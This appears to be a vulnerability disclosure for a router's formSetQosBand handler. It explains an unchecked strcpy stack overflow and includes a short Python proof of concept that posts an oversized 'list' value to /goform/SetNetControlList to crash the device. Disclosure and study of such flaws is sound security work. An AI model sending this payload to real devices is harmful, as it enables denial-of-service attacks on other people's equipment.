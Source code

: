 In the function formSetQosBand, the content obtained by the program from the parameter "list" is passed to the chunks created by the program, and then the value of the list is copied directly into the stack via the strcpy function. There is no size checking, so there is a stack overflow vulnerability. Attackers can easily perform denial-of-service attacks using well-crafted overflow data.

<img width="393" height="211" alt="image" src="https://github.com/user-attachments/assets/6b634613-43e4-4162-b93a-2b79e7c03bd6" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/SetNetControlList"

cookie = {"Cookie":"password=12345"}
data = {"list": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
